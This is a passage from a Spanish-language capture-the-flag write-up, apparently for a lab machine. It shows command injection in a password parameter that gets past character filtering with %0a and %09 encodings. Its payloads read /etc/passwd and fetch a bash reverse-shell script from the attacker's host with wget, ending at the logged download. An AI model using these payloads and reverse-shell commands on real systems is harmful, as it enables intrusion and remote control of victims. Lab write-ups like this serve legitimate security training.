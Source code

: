 > Request

~~~ bash
password=test;whoami&backup=
~~~


> Response

~~~ bash
<div class='error-message'>Error: Try another password.</div>
	</div>
~~~

Se intenta sanitizar el parámetro `password` eliminando ciertos caracteres como (`;`, `&`, `|` o ` `) con funciones como `, pero es posible escapar del comando con los siguientes caracteres 

- `\n -> %0a`
- `\t -> %09`

Podemos usar `%09` como una separación entre lo que indiquemos

~~~ bash
password=test%0acat%09/etc/passwd&backup=
~~~

Vemos que tiene `wget` instalado, podemos usar este comando para descargar recursos de un servidor HTTP controlado por nosotros

~~~ html
<h3>Output:</h3>
<pre>
	/usr/bin/wget
</pre>
~~~

Crearemos una reverse shell en bash y la guardaremos en un archivo malicioso, por ejemplo 
`rev.sh`

~~~ bash
bash -c 'bash -i >& /dev/tcp/10.10.14.237/4444 0>&1'
~~~

Antes de solicitar este recurso, necesitaremos iniciar un servidor HTTP con `python` en nuestra máquina atacante

~~~ bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Ahora procedemos a descargar la reverse shell en la máquina víctima utilizando el comando `wget`

~~~
password=test%0awget%09http://10.10.14.237/rev.sh&backup=
~~~

Habremos recibido la solicitud HTTP al recurso `rev.sh`

~~~ bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.64 - - [12/May/2025 18:38:27] "GET /rev.sh HTTP/1.1" 200 -
~~~
